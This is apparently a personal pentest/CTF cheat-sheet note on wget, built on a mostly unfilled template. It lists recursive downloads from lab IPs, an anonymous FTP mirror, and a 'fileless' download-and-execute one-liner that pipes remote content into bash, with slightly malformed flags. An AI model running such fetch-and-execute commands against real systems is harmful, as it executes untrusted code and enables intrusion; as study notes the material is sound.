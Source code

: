 # wget

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

### Category 1

Download all files within a specific web directory
```bash
wget -r -np -nH --cut-dirs=1 --reject "index.html*" -e robots=off http://10.10.237.124/development/
```
^download-web-directory-files

Download all available FTP files:
```shell
wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
```

Download a file.
```bash
wget url -O path
```
^simple-download

Download and execute file in memory (fileless).
```bash
wget -qO- url -O path | bash
```
^fileless-download


### Category 2

Brief description of this category

command syntax ^wget-category2

### Category 3

Brief description of this category

command syntax ^wget-category3

## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #wget
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#wget #tool